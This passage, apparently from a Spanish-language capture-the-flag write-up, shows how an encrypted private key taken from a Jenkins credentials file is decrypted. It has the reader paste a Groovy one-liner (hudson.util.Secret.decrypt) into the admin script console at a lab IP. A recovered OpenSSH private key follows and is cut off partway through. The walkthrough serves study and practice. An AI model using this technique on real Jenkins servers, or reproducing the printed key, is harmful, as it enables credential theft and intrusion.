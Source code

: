 ```xml
sTPz366bcOcNONXSxuD0fJ5+WVvReTFdi+agF+sF2jkOhGTjc7pGAg2zl10O84PzXW1TkN2yD9YHgo9xYa8E2k6pYSpVxxYlRogfz9exupYVievBPkQnKo1Qoi15+eunzHKrxm3WQssFMcYCdYHlJtWCbgrKCh
sFys4oUE7iW0YQ0MsAdcg/hWuBX878aR+/3HsHaB1OTIcTxtaaMR8IMMaKSM=}</privateKey>
```

Según el artículo previamente mencionado podemos utilizar la consola de Jenkins (necesitamos acceder como administradores a ella) y una vez allí podemos desencriptar esta clave privada.

Nos dirigimos a `http://10.129.230.220:8080/manage/script`

Ahora debemos de pegar la siguiente línea.
```console
println hudson.util.Secret.decrypt("{BASE64}")
```

![Write-up Image](images/Screenshot_17.png)

Conseguimos la clave privada.

```console
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAt3G9oUyouXj/0CLya9Wz7Vs31bC4rdvgv7n9PCwrApm8PmGCSLgv
Up2m70MKGF5e+s1KZZw7gQbVHRI0U+2t/u8A5dJJsU9DVf9w54N08IjvPK/cgFEYcyRXWA
EYz0+41fcDjGyzO9dlNlJ/w2NRP2xFg4+vYxX+tpq6G5Fnhhd5mCwUyAu7VKw4cVS36CNx
vqAC/KwFA8y0/s24T1U/sTj2xTaO3wlIrdQGPhfY0wsuYIVV3gHGPyY8bZ2HDdES5vDRpo
Fzwi85aNunCzvSQrnzpdrelqgFJc3UPV8s4yaL9JO3+s+akLr5YvPhIWMAmTbfeT3BwgMD
vUzyyF8wzh9Ee1J/6WyZbJzlP/Cdux9ilD88piwR2PulQXfPj6omT059uHGB4Lbp0AxRXo
L0gkxGXkcXYgVYgQlTNZsK8DhuAr0zaALkFo2vDPcCC1sc+FYTO1g2SOP4shZEkxMR1To5
yj/fRqtKvoMxdEokIVeQesj1YGvQqGCXNIchhfRNAAAFiNdpesPXaXrDAAAAB3NzaC1yc2
EAAAGBALdxvaFMqLl4/9Ai8mvVs+1bN9WwuK3b4L+5/TwsKwKZvD5hgki4L1Kdpu9DChhe
XvrNSmWcO4EG1R0SNFPtrf7vAOXSSbFPQ1X/cOeDdPCI7zyv3IBRGHMkV1gBGM9PuNX3A4
xsszvXZTZSf8NjUT9sRYOPr2MV/raauhuRZ4YXeZgsFMgLu1SsOHFUt+gjcb6gAvysBQPM
tP7NuE9VP7E49sU2jt8JSK3UBj4X2NMLLmCFVd4Bxj8mPG2dhw3REubw0aaBc8IvOWjbpw
s70kK586Xa3paoBSXN1D1fLOMmi/STt/rPmpC6+WLz4SFjAJk233k9wcIDA71M8shfMM4f
RHtSf+lsmWyc5T/wnbsfYpQ/PKYsEdj7pUF3z4+qJk9OfbhxgeC26dAMUV6C9IJMRl5HF2
IFWIEJUzWbCvA4bgK9M2gC5BaNrwz3AgtbHPhWEztYNkjj+LIWRJMTEdU6Oco/30arSr6D
MXRKJCFXkHrI9WBr0KhglzSHIYX0TQAAAAMBAAEAAAGAD+8Qvhx3AVk5ux31+Zjf3ouQT3
7go7VYEb85eEsL11d8Ktz0YJWjAqWP9PNZQqGb1WQUhLvrzTrHMxW8NtgLx3uCE/ROk1ij
rCoaZ/mapDP4t8g8umaQ3Zt3/Lxnp8Ywc2FXzRA6B0Yf0/aZg2KykXQ5m4JVBSHJdJn+9V
sNZ2/Nj4KwsWmXdXTaGDn4GXFOtXSXndPhQaG7zPAYhMeOVznv8VRaV5QqXHLwsd8HZdlw
R1D9kuGLkzuifxDyRKh2uo0b71qn8/P9Z61UY6iydDSlV6iYzYERDMmWZLIzjDPxrSXU7x
6CEj83Hx3gjvDoGwL6htgbfBtLfqdGa4zjPp9L5EJ6cpXLCmA71uwz6StTUJJ179BU0kn6
HsMyE5cGulSqrA2haJCmoMnXqt0ze2BWWE6329Oj/8Yl1sY8vlaPSZUaM+2CNeZt+vMrV/
ERKwy8y7h06PMEfHJLeHyMSkqNgPAy/7s4jUZyss89eioAfUn69zEgJ/MRX69qI4ExAAAA
```